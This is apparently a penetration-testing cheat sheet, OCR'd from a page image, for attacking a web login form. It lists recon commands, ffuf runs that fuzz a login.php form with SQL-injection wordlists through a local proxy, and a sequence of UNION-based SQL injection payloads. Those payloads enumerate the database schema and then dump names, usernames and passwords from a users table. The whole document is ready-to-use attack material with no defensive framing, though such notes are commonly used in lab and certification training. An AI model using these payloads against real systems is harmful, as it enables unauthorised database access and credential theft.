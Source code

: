 
```bash
# nmap sS and sU
# ferox file/directory brute force enum
whatweb -v http://192.168.IP/
curl -I http://192.168.IP/robots.txt
curl -I http://192.168.IP/sitemap.xml


# SQL stuff
# fuzzing quick SQLi payloads
ffuf -w /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt:FUZZ -d "username=FUZZ&password=bar" -u http://192.168.IP/login.php -x http://127.0.0.1:8080
# fuzzing quick special chars
ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt:FUZZ -d "username=FUZZ&password=bar" -u http://192.168.IP/login.php -x http://127.0.0.1:8080

'order+by+6-- 
'+union+select+'A1','B2','C3','D4','D5'--+-
'+union+select+'A1',database(),'C3','D4','D5'--+-
'+union+select+'A1',table_name,'C3','D4','D5'+from+information_schema.tables+where+table_schema=database()--+-
'+union+select+'A1',column_name,'C3','D4','D5'+from+information_schema.columns+where+table_name='users'--+-
'+union+select+'A1',group_concat(name,'@@',username,'@@',password),'C3','D4','D5'+from+users--+-
``

